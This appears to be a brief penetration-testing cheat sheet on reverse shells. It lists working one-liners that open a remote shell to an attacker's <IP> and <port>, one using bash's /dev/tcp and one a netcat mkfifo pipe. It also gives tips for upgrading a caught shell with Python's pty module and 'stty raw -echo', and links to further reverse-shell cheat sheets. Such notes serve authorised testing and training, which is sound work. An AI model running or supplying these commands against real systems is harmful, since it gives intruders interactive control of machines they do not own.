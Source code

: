 # Reverse Shell

## One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

#### Netcat

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <port> >/tmp/f
```

Sometimes one one-liner won't work, but another will. Two great cheatsheets are [pentestmonkey ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)and [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

## Shell Cushions

if the shell is terminal-based some measures can be taken to make the shell more comfortable to use.

### Spawn TTY

#### Python

```text
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

[more](https://netsec.ws/?p=337).

### Auto Completion

Background the process with Ctrl+z.

Execute this to disable echoing and send I/O straight through without processing.

```text
stty raw -echo
```

[Additional cushions](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).




